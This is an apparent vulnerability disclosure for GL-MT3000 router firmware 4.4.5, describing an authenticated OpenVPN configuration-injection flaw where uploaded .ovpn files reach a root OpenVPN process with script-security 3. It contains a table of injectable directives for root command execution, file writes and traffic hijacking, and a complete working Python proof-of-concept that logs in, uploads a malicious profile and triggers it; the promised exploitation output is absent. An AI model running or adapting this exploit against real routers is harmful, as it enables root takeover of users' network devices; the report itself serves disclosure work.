

Submittion Date: 2026.5.6
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated configuration injection vulnerability exists in the OpenVPN client import workflow of the affected product. An attacker with admin credentials can upload a malicious `.ovpn` configuration file through the `/upload` endpoint. The file content is not validated for dangerous OpenVPN directives. When the imported configuration is later loaded by `ovpnclient.sh`, a `sed` filter only strips 4 directives (`daemon`, `dev`, `dev-type`, `tun-mtu`), leaving 200+ OpenVPN directives intact. Since the OpenVPN process is launched with `--script-security 3` as root, an attacker can inject directives such as `writepid`, `up`, `down`, `tls-verify`, and `client-connect` to achieve arbitrary file creation or root command execution.

The reported vulnerable flow is:

```text
Authenticated user
  -> POST /upload (multipart with sid, path=/tmp/ovpn_upload/<name>.ovpn, file=<malicious .ovpn>)
  -> oui-upload.lua checks path allowlist only, does NOT inspect file content
  -> file written to /tmp/ovpn_upload/<name>.ovpn

  -> POST /rpc calls ovpn-client.check_config(filename=<name>.ovpn)
  -> ovpn-client.so reads the file, validates format only, does NOT check for dangerous directives

  -> POST /rpc calls ovpn-client.confirm_config(group_id=...)
  -> ovpn-client.so writes UCI entry: option path '/tmp/ovpn_upload/<name>.ovpn'

  -> POST /rpc calls ovpn-client.start(group_id=..., client_id=...)
  -> netifd reads UCI, calls ovpnclient.sh

  -> ovpnclient.sh:50 applies sed filter (only removes 4 directives)
  -> writepid / up / down / tls-verify etc. pass through untouched

  -> ovpnclient.sh:66 launches: /usr/sbin/openvpn --script-security 3 --config <filtered file>
  -> OpenVPN processes injected directives as root
  -> arbitrary file creation (writepid) or command execution (up/down/tls-verify)
```

The upload endpoint `POST /upload` requires authentication via a valid `sid` session token, except for requests originating from localhost (`127.0.0.1` / `::1`) which bypass authentication entirely.



The upload handler in `usr/share/gl-ngx/oui-upload.lua` validates the destination path against an allowlist defined in `/usr/share/gl-upload.d/*`, but performs no content inspection on the uploaded file:


The allowlist entry for OpenVPN client configs permits:
```
/tmp/ovpn_upload/.+%.ovpn$
```

Any file content is written verbatim to disk:


The `check_config` validator in `usr/share/gl-validator.d/ovpn-client.lua` only checks the filename format with the permissive pattern `".-"` (matches any string). It does not read or inspect the file contents for dangerous directives:

```lua
return {
  check_config = { filename = ".-" }
}
```

The `confirm_config` handler in `ovpn-client.so` reads the uploaded file, performs format validation, then persists the file path into UCI configuration at `/etc/config/ovpnclient`:

```text
config clients 'writepid_1234'
    option group_id '1'
    option name 'writepid_1234'
    option path '/tmp/ovpn_upload/writepid_1234.ovpn'
```

The `ovpnclient.sh` protocol handler reads the UCI path and applies a minimal `sed` filter at line 50:


```sh
# ovpnclient.sh:50 — only 4 directives removed
sed -e '/^daemon/d' -e '/^dev /d' -e '/^dev-type/d' -e '/^tun-mtu/d' "${ovpn_cfg}" > "${apply_cfg}"
```

The following dangerous directives are NOT filtered and pass through to the OpenVPN process:

| Category | Injectable Directives | Impact |
|----------|----------------------|--------|
| Script Execution | `up`, `down`, `tls-verify`, `client-connect`, `client-disconnect`, `ipchange`, `route-up`, `route-pre-down`, `auth-user-pass-verify`, `learn-address` | RCE as root |
| File Write | `writepid`, `log`, `log-append`, `status` | Arbitrary file creation |
| Info Disclosure | `ca`, `cert`, `key`, `tls-auth`, `crl-verify` | Read sensitive files |
| Network Hijack | `remote`, `route`, `redirect-gateway`, `http-proxy`, `socks-proxy` | Traffic interception |

The filtered config is then loaded by OpenVPN running as root with `--script-security 3`:


```sh
proto_run_command "$interface" /usr/sbin/openvpn \
    --writepid "/var/run/ovpnclient-${interface}.pid" \   # processed first
    --script-security 3 \                                  # allows script execution
    --config "${apply_cfg}" \                              # user config processed second, overrides!
    --up "/etc/openvpn/scripts/ovpnclient-up ..." \        # can be overridden by user config
    --down "/etc/openvpn/scripts/ovpnclient-down ..."      # can be overridden by user config
```

OpenVPN processes directives in order. The command-line `--writepid` is processed first, then the `writepid` from the user config file overrides it. Similarly, `up`/`down` directives from the config file override the command-line defaults.

The PoC demonstrates the `writepid` vector — it imports a malicious `.ovpn` containing `writepid /tmp/pwnpoc3`, which causes the root OpenVPN process to create the file at the attacker-specified path:


Exploit the vulnerability by sending a carefully constructed HTTP request:
```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import hashlib
import json
import ssl
import subprocess
import tempfile
import time
import urllib.error
import urllib.request
from pathlib import Path


class GLInetError(RuntimeError):
    pass


class GLInetClient:
    def __init__(self, base_url: str, username: str, password: str, timeout: int = 15, verify_ssl: bool = False):
        self.base_url = base_url.rstrip("/")
        self.username = username
        self.password = password
        self.timeout = timeout
        self.verify_ssl = verify_ssl
        self.sid: str | None = None
        self._ssl_context = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()

    def _open(self, req: urllib.request.Request) -> bytes:
        try:
            with urllib.request.urlopen(req, timeout=self.timeout, context=self._ssl_context) as resp:
                return resp.read()
        except urllib.error.HTTPError as exc:
            raise GLInetError(f"HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
        except urllib.error.URLError as exc:
            raise GLInetError(f"Connection failed: {exc}") from exc

    def _post_json(self, path: str, obj: dict) -> dict:
        req = urllib.request.Request(
            f"{self.base_url}{path}",
            data=json.dumps(obj).encode(),
            headers={"Content-Type": "application/json"},
            method="POST",
        )
        return json.loads(self._open(req).decode())

    def login(self) -> str:
        challenge = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 1, "method": "challenge", "params": {"username": self.username}},
        )
        if "error" in challenge:
            raise GLInetError(f"challenge failed: {challenge['error']}")

        salt = challenge["result"]["salt"]
        nonce = challenge["result"]["nonce"]
        crypt_pw = subprocess.check_output(["openssl", "passwd", "-1", "-salt", salt, self.password], text=True).strip()
        digest = hashlib.md5(f"{self.username}:{crypt_pw}:{nonce}".encode()).hexdigest()

        login = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 2, "method": "login", "params": {"username": self.username, "hash": digest}},
        )
        if "error" in login:
            raise GLInetError(f"login failed: {login['error']}")

        self.sid = login["result"]["sid"]
        return self.sid

    def ensure_login(self) -> str:
        return self.sid or self.login()

    def rpc_call(self, obj: str, method: str, args: dict | None = None) -> dict:
        resp = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 3, "method": "call", "params": [self.ensure_login(), obj, method, args or {}]},
        )
        if "error" in resp:
            raise GLInetError(f"rpc call failed: {resp['error']}")
        return resp.get("result", {})

    def upload_file(self, remote_path: str, local_path: Path) -> None:
        cmd = [
            "curl",
            "-sS",
            "--max-time",
            str(self.timeout),
            "-F",
            f"sid={self.ensure_login()}",
            "-F",
            f"path={remote_path}",
            "-F",
            f"size={local_path.stat().st_size}",
            "-F",
            f"file=@{local_path};filename={local_path.name}",
            f"{self.base_url}/upload",
        ]
        if self.base_url.startswith("https://") and not self.verify_ssl:
            cmd.insert(1, "-k")
        res = subprocess.run(cmd, capture_output=True, text=True)
        if res.returncode != 0:
            raise GLInetError(f"upload failed: {res.stderr.strip() or res.stdout.strip()}")


def choose_group_id(client: GLInetClient) -> int:
    groups = client.rpc_call("ovpn-client", "get_group_list", {}).get("groups", [])
    for group in groups:
        if group.get("group_name") == "FromApp" and int(group.get("auth_type", 0)) == 1:
            return int(group["group_id"])
    for group in groups:
        if int(group.get("auth_type", 0)) == 1:
            return int(group["group_id"])
    raise GLInetError("no suitable OpenVPN group found")


def find_client_id(client: GLInetClient, group_id: int, name: str) -> int:
    config_list = client.rpc_call("ovpn-client", "get_all_config_list", {}).get("config_list", [])
    for group in config_list:
        if int(group.get("group_id", -1)) != group_id:
            continue
        for item in group.get("clients", []):
            if item.get("name") == name:
                return int(item["client_id"])
    raise GLInetError(f"imported client {name!r} not found")


def main() -> int:
    parser = argparse.ArgumentParser(description="C9 PoC: import an OVPN profile and force root OpenVPN to create /tmp/pwnpoc3 via writepid.")
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--username", default="root")
    parser.add_argument("--password", default="12345678Q!")
    parser.add_argument("--ca-path", default="/etc/ssl/certs/02265526.0", help="Existing CA file path on the router")
    parser.add_argument("--auth-path", default=None, help="Remote auth-user-pass file path on the router")
    parser.add_argument("--target-file", default="/tmp/pwnpoc3", help="File to create on the router")
    parser.add_argument("--wait", type=float, default=2.0, help="Seconds to wait after start")
    args = parser.parse_args()

    client = GLInetClient(args.base_url, args.username, args.password)
    sid = client.login()
    group_id = choose_group_id(client)

    stamp = str(int(time.time()))
    profile_name = f"writepid_{stamp}"
    auth_remote_path = args.auth_path or f"/tmp/{profile_name}.auth"
    ovpn_remote_path = f"/tmp/ovpn_upload/{profile_name}.ovpn"

    auth_body = "user\npass\n"
    ovpn_body = "\n".join(
        [
            "client",
            "dev tun",
            "proto udp",
            "remote 198.51.100.1 1194",
            "nobind",
            "persist-key",
            "persist-tun",
            "script-security 3",
            f"ca {args.ca_path}",
            f"auth-user-pass {auth_remote_path}",
            f"writepid {args.target_file}",
            "",
        ]
    )

    with tempfile.TemporaryDirectory() as tmpdir:
        auth_local = Path(tmpdir) / f"{profile_name}.auth"
        ovpn_local = Path(tmpdir) / f"{profile_name}.ovpn"
        auth_local.write_text(auth_body, encoding="utf-8")
        ovpn_local.write_text(ovpn_body, encoding="utf-8")

        client.upload_file(auth_remote_path, auth_local)
        client.upload_file(ovpn_remote_path, ovpn_local)

    check_result = client.rpc_call("ovpn-client", "check_config", {"group_id": group_id, "filename": f"{profile_name}.ovpn"})
    if profile_name + ".ovpn" not in check_result.get("passed", []):
        raise GLInetError(f"check_config did not accept the profile: {check_result}")

    client.rpc_call("ovpn-client", "confirm_config", {"group_id": group_id})
    client_id = find_client_id(client, group_id, profile_name)
    start_result = client.rpc_call("ovpn-client", "start", {"group_id": group_id, "client_id": client_id})

    print(f"[+] sid         : {sid}")
    print(f"[+] group_id    : {group_id}")
    print(f"[+] client_id   : {client_id}")
    print(f"[+] auth path   : {auth_remote_path}")
    print(f"[+] ovpn path   : {ovpn_remote_path}")
    print(f"[+] target file : {args.target_file}")
    print(f"[+] start result: {start_result}")
    print(f"[+] waited      : {args.wait}s")

    time.sleep(args.wait)

    print("[+] done")
    print(f"[+] if successful, root OpenVPN should have created: {args.target_file}")
    print("[+] this PoC uses the imported 'writepid' directive, so it does not need a successful VPN handshake")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

The exploitation is shown below.


